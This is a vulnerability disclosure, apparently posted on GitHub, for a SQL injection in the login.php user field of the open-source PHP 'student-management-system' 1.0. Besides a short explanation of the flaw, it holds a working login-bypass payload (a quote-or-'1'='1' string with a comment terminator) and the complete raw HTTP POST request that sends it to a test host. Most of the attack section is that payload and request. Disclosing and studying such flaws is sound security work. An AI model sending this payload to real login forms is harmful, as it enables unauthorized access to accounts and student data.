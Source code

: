 # student-management-system login.php user SQL inject

   
#### Exploit Title: student-management-system login.php user SQL inject
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://github.com/ningzichun/student-management-system
#### Software Link: https://github.com/ningzichun/student-management-system
#### Version: student-management-system 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection student-management-system does not filter the content correctly at the "login.php" user module, resulting in the generation of SQL injection.

#### Payload used:
`user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4`

#### Proof of Concept


1. Open login.php source code.

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/b1172a22-8865-4368-b436-9b369edee757)

2. POST SQL injection payload  (`user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4`) 

3. Html Request Code

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/094278d5-3144-4cb2-bb34-dee6f934025e)
```
POST /student/login.php HTTP/1.1
Host: 172.24.6.107:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://172.24.6.107:8081
Connection: close
Referer: http://172.24.6.107:8081/student/?retry=1
Cookie: PHPSESSID=44sif2lb4iq80ieksie1intac7
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

user='or '1'='1' limit 1#&pass='or '1'='1' limit 1#&submit=%E6%8F%90%E4%BA%A4
```

4. response

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/7b977528-8ee2-492e-850a-3f88b26917cf)
![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/72730c85-66cc-49a3-a963-6669a24eb9c8)

